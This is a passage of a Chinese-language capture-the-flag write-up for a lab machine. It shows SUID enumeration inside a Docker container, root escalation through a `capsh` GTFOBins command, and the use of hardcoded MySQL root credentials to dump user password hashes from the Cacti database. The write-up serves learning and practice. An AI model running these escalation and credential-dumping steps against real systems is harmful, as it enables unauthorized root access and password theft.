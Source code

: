 以及根目录还有个 `entrypoint.sh` 不知道是干啥的。

*以前好像打过关于与docker的，但是完全不记得过程了……*

### SUID提权（不需要）

继续基础信息收集看看，SUID：
```bash
bash-5.1$ find / -perm -4000 -exec ls -l "{}" \; 2>/dev/null
find / -perm -4000 -exec ls -l "{}" \; 2>/dev/null
-rwsr-xr-x 1 root root 88304 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 52880 Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwsr-sr-x 1 www-data www-data 16664 May 14 22:03 /tmp/suid
-rwsr-xr-x 1 root root 30872 Oct 14  2020 /sbin/capsh
-rwsr-xr-x 1 root root 55528 Jan 20  2022 /bin/mount
-rwsr-xr-x 1 root root 35040 Jan 20  2022 /bin/umount
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
-rwsr-xr-x 1 root root 71912 Jan 20  2022 /bin/su
```

有些不咋见到的，比如 `capsh`，在GTFBins搜搜看，发现能利用：
```bash
bash-5.1$ /sbin/capsh --gid=0 --uid=0 --
/sbin/capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

拿到docker的root权限。

*然后发现自己拿到root权限也不知道要干啥……事前也没太多思路，一心想着提权都是走一步看一步，感觉这个习惯不好啊。*

### 探索DB

想起来根目录还有个 `entrypoint.sh` 文件觉得很可疑，之前由于没有root权限也没怎么看。现在看看脚本似乎是在部署DB？关注到里面有一行 
`mysql --host=db --user=root --password=root cacti -e "show tables"`。运行了一下脚本也确实显示了tables。所以想着应该可以修改这个命令探索 `cacti` 这个DB。

*后来发现这条命令甚至这个脚本其实不用root权限也能执行……因为bash命令设置了root权限的SUID，而mysql命令里直接给了账号密码去连接DB……*

```bash
bash-5.1$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
< --password=root cacti -e "select * from user_auth"
id      username        password        realm   full_name       email_address   must_change_password    password_change    show_tree       show_list       show_preview    graph_settings  login_opts      policy_graphs   policy_trees       policy_hosts    policy_graph_templates  enabled lastchange      lastlogin       password_history        locked     failed_attempts lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb              on      on      on      on      on      2       1       1       1       1       on      -1-1       -1              0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3 11       1       1       1               -1      -1      -1              0       0       0
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                     on      on      on      on      1       1       1       1       1       on      -1-1               on      0       0       2135691668
```
